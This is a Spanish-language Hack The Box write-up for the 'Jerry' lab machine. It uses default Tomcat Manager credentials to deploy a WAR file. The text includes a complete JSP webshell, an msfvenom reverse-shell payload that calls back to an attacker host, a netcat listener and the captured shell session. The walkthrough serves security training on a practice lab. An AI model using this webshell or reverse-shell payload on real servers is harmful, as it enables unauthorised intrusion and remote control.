








# Jerry - Writeup HTB



## Introducción

Jerry es una máquina de dificultad fácil de Hack The Box que explota una vulnerabilidad en Apache Tomcat 7.0.88. El objetivo es explotar credenciales débiles en el panel de administración para desplegar un archivo WAR malicioso y obtener ejecución de código remota.

---

## Reconocimiento

### Escaneo de Puertos

Iniciamos con un escaneo de puertos completo para identificar los servicios disponibles:

```bash
nmap -p- --open --min-rate 1000 -Pn -n -v 10.129.136.9 -oG allportsScan
```

**Resultado:**
```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-09 02:55 -0500
Initiating SYN Stealth Scan at 02:55
Scanning 10.129.136.9 [65535 ports]
Discovered open port 8080/tcp on 10.129.136.9
SYN Stealth Scan Timing: About 22.89% done; ETC: 02:57 (0:01:44 remaining)
SYN Stealth Scan Timing: About 48.15% done; ETC: 02:57 (0:01:06 remaining)
Completed SYN Stealth Scan at 02:57, 109.10s elapsed (65535 total ports)
Nmap scan report for 10.129.136.9
Host is up (0.11s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit

PORT     STATE SERVICE
8080/tcp open  http-proxy
```

Se identificó un único puerto abierto: **8080/tcp** ejecutando un servicio HTTP.

### Escaneo de Servicios

Realizamos un escaneo más detallado en el puerto identificado para determinar la versión exacta del servicio:

```bash
nmap -p8080 -sCV -n -vv -Pn 10.129.136.9 -oN servicesScan
```

**Resultado:**
```
PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
```



Se confirmó la presencia de **Apache Tomcat 7.0.88**, un servidor web conocido por tener vulnerabilidades cuando se configura con credenciales débiles en el panel de administración.

---

## Enumeración Web

### Acceso a Tomcat Manager

Al acceder a `http://10.129.136.9:8080/`, se muestra la página por defecto de Apache Tomcat 7.0.88:
Intentamos acceder al panel de administración en `http://10.129.136.9:8080/manager/html`:



**Credenciales encontradas:**
- Usuario: `tomcat`
- Contraseña: `s3cret`

Estas son credenciales comunes en instalaciones por defecto de Tomcat que no han sido modificadas.

---

## Explotación

### Acceso al Panel de Administración

Con las credenciales `tomcat:s3cret`, se logró acceder al panel de administración de Tomcat Manager:



### Preparación del Payload

Para ejecutar comandos en el servidor, preparamos un archivo JSP malicioso. Se utilizó un webshell JSP de código abierto:

```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```

### Método 1: Desplegar WAR Manualmente

Empaquetamos el archivo JSP como un archivo WAR (Web Archive):

```bash
zip -r backup.war cmd.jsp
```

Este archivo se subió a través del panel de administración de Tomcat Manager:



Una vez desplegado, accedemos al webshell en: `http://10.129.136.9:8080/backup/cmd.jsp?cmd=whoami`



Desde este punto, tenemos la capacidad de ejecutar comandos de forma interactiva en el servidor.

### Método 2: Reverse Shell con msfvenom

Alternativamente, se puede generar un payload de reverse shell más directo usando msfvenom:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.60.5 LPORT=4443 -f war > backup.war

Payload size: 1098 bytes
Final size of war file: 1098 bytes
```

Este payload se despliega de la misma manera a través del panel de administración:



Antes de hacer clic en el archivo desplegado, nos ponemos a la escucha con netcat:

```bash
nc -lvnp 4443
```



Al acceder al archivo WAR desplegado, se establece una conexión de reverse shell, comprometiendo completamente la máquina:

```
listening on [any] 4443 ...
connect to [192.168.60.5] from (UNKNOWN) [10.129.136.9] 53125
Microsoft Windows [Version 6.1.7600]
C:\apache-tomcat-7.0.88\bin>whoami
```

---

## Conclusión

La máquina Jerry fue comprometida explotando:

1. **Credenciales débiles** en el panel de administración de Tomcat Manager
2. **Falta de restricciones** en la función de despliegue de aplicaciones WAR
3. **Capacidad de ejecución de código remota** mediante archivos JSP maliciosos
